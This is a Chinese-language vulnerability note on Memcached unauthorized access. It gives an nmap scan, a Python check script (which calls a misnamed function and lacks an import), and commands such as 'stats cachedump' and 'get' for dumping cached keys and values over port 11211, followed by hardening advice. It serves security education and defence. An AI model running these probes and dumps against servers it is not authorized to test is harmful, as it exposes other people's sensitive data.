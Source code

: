 # Memcache未授权访问

### 一、漏洞简介

memcached是一套分布式的高速缓存系统。它以Key-Value（键值对）形式将数据存储在内存中，这些数据通常是应用读取频繁的。正因为内存中数据的读取远远大于硬盘，因此可以用来加速应用的访问。

### 二、影响范围

### 三、复现过程

1.扫描探测


```bash
nmap -sV -p 11211 --script memcached-info 0.0.0.0
```

![](images/15891217574774.png)



```python
##! /usr/bin/env python
## _*_  coding:utf-8 _*_
def Memcache_check(ip, port=11211, timeout=5):
    try:
        socket.setdefaulttimeout(timeout)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, int(port)))
        s.send("stats\r\n")
        result = s.recv(1024)
        if "STAT version" in result:
            print '[+] Memcache Unauthorized: ' +ip+':'+str(port)
    except Exception, e:
        pass
if __name__ == '__main__':
    Elasticsearch_check("127.0.0.1")
```

**2.攻击利用**

2.1 基础部分

通过一个cheat sheet了解一下Memcached的协议。Memcached的语法由如下元素组成

*{COMMAND}0x20{ARGUMENT}(LF|CRLF)*

command字段有如下几条命令

* 存储操作(set, add, replace, append, prepend, cas)
* 检索操作 (get, gets)
* 删除操作 (delete)
* 增减操作 (incr, decr)
* touch
* slabs reassign
* slabs automove
* lru_crawler
* 统计操作(stats items, slabs, cachedump)
* 其他操作 (version, flush_all, quit)

![-w496](images/15891217969632.jpg)


version | 打印Memcached版本 | version


```bash
stats  //查看memcache 服务状态
stats items  //查看所有items
stats cachedump 32 0  //获得缓存key
get :state:264861539228401373:261588   //通过key读取相应value ，获得实际缓存内容，造成敏感信息泄露
```

2.2 建立连接并获取信息

`telnet 11211`，或` nc -vv 11211`，无需用户名密码，可以直接连接memcache 服务的11211端口。

![](images/15891218202794.png)


附赠大佬写的文章 [Discuz!因Memcached未授权访问导致的RCE](https://xz.aliyun.com/t/2018)

**3.防范措施**

1.限制访问

如果memcache没有对外访问的必要，可在memcached启动的时候指定绑定的ip地址为 127.0.0.1。其中 -l 参数指定为本机地址。例如：


```
memcached -d -m 1024 -u root -l 127.0.0.1 -p 11211 -c 1024 -P /tmp/memcached.pid
```

或者 vim /etc/sysconfig/memcached，修改配置文件

`OPTIONS="-l 127.0.0.1"，只能本机访问，不对公网开放，保存退出 /etc/init.d/memcached reload`

2.防火墙


```bash
// accept
## iptables -A INPUT -p tcp -s 127.0.0.1 --dport 11211 -j ACCEPT
## iptables -A INPUT -p udp -s 127.0.0.1 --dport 11211 -j ACCEPT

// drop
## iptables -I INPUT -p tcp --dport 11211 -j DROP
## iptables -I INPUT -p udp --dport 11211 -j DROP

// 保存规则并重启 iptables
## service iptables save
## service iptables restart
```

3.使用最小化权限账号运行Memcached服务

使用普通权限账号运行，指定Memcached用户。


```bash
memcached -d -m 1024 -u memcached -l 127.0.0.1 -p 11211 -c 1024 -P /tmp/memcached.pid
```

4.启用认证功能

Memcached本身没有做验证访问模块,Memcached从1.4.3版本开始，能支持SASL认证。SASL认证详细配置手册

5.修改默认端口

修改默认11211监听端口为11222端口。在Linux环境中运行以下命令：


```bash
memcached -d -m 1024 -u memcached -l 127.0.0.1 -p 11222 -c 1024 -P /tmp/memcached.pid
```

6.定期升级

**参考:**

http://lzone.de/cheat-sheet/memcached
https://www.secpulse.com/archives/49659.html
https://www.sensepost.com/blog/2010/blackhat-write-up-go-derper-and-mining-memcaches/
https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf
http://niiconsulting.com/checkmate/2013/05/memcache-exploit/
https://xz.aliyun.com/t/2018
http://drops.xmd5.com/static/drops/web-8987.html
https://blog.csdn.net/microzone/article/details/79262549